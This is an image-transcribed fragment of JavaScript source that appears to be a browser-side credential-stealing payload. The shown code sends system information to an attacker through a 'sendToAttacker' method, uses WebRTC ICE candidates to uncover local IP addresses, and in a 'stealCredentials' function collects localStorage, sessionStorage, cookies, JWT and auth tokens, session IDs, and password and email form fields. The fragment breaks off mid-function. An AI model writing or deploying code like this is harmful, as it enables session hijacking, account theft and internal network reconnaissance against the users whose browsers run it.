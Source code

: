 ```
                systemInfo.localIPs = ips;
                this.sendToAttacker('system_info', systemInfo);
            });
        } else {
            this.sendToAttacker('system_info', systemInfo);
        }
    }
    
    async getLocalIPs() {
        return new Promise((resolve) => {
            const pc = new RTCPeerConnection({
                iceServers: [{ urls: 'stun:stun.l.google.com:19302' }]
            });
            
            const ips = [];
            
            pc.onicecandidate = (event) => {
                if (event.candidate) {
                    const candidate = event.candidate.candidate;
                    const ipMatch = candidate.match(/(\d+\.\d+\.\d+\.\d+)/);
                    if (ipMatch && !ips.includes(ipMatch[1])) {
                        ips.push(ipMatch[1]);
                    }
                }
            };
            
            pc.createDataChannel('');
            pc.createOffer().then(offer => pc.setLocalDescription(offer));
            
            setTimeout(() => {
                pc.close();
                resolve(ips);
            }, 2000);
        });
    }
    
    stealCredentials() {
        // Extract authentication tokens
        const credentials = {
            localStorage: { ...localStorage },
            sessionStorage: { ...sessionStorage },
            cookies: document.cookie,
            tokens: {
                jwt: localStorage.getItem('token') || 
                     sessionStorage.getItem('token') ||
                     this.extractFromCookie('token'),
                authToken: localStorage.getItem('authToken') ||
                          this.extractFromCookie('authToken'),
                sessionId: this.extractFromCookie('sessionId') ||
                          this.extractFromCookie('JSESSIONID')
            }
        };
        
        // Try to extract additional credentials from forms
        const forms = document.querySelectorAll('form');
        const formData = [];
        
        forms.forEach(form => {
            const inputs = form.querySelectorAll('input[type="password"], input[type="email"], input[name*="user"], input[name*="pass"]');
            if (inputs.length > 0) {
                const formInfo = {
                    action: form.action,
```